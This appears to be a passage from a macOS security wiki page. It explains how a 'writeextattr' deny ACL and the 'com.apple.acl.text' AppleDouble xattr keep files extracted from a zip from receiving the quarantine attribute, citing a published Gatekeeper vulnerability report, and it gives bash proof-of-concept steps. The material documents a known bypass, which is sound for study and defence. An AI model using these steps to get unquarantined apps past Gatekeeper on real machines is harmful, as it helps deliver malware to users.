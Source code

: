 ### writeextattr ACL

This ACL prevents from adding `xattrs` to the file

```bash
rm -rf /tmp/test*
echo test >/tmp/test
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" /tmp/test
ls -le /tmp/test
ditto -c -k test test.zip
# Download the zip from the browser and decompress it, the file should be without a quarantine xattr

cd /tmp
echo y | rm test

# Decompress it with ditto
ditto -x -k --rsrc test.zip .
ls -le /tmp/test

# Decompress it with open (if sandboxed decompressed files go to the Downloads folder)
open test.zip
sleep 1
ls -le /tmp/test
```

### **com.apple.acl.text xattr + AppleDouble**

**AppleDouble** file format copies a file including its ACEs.

In the [**source code**](https://opensource.apple.com/source/Libc/Libc-391/darwin/copyfile.c.auto.html) it's possible to see that the ACL text representation stored inside the xattr called **`com.apple.acl.text`** is going to be set as ACL in the decompressed file. So, if you compressed an application into a zip file with **AppleDouble** file format with an ACL that prevents other xattrs to be written to it... the quarantine xattr wasn't set into de application:

Check the [**original report**](https://www.microsoft.com/en-us/security/blog/2022/12/19/gatekeepers-achilles-heel-unearthing-a-macos-vulnerability/) for more information.

To replicate this we first need to get the correct acl string:

```bash
# Everything will be happening here
mkdir /tmp/temp_xattrs
cd /tmp/temp_xattrs

# Create a folder and a file with the acls and xattr
mkdir del
mkdir del/test_fold
echo test > del/test_fold/test_file
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" del/test_fold
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" del/test_fold/test_file
ditto -c -k del test.zip

# uncomporess to get it back
ditto -x -k --rsrc test.zip .
ls -le test
```
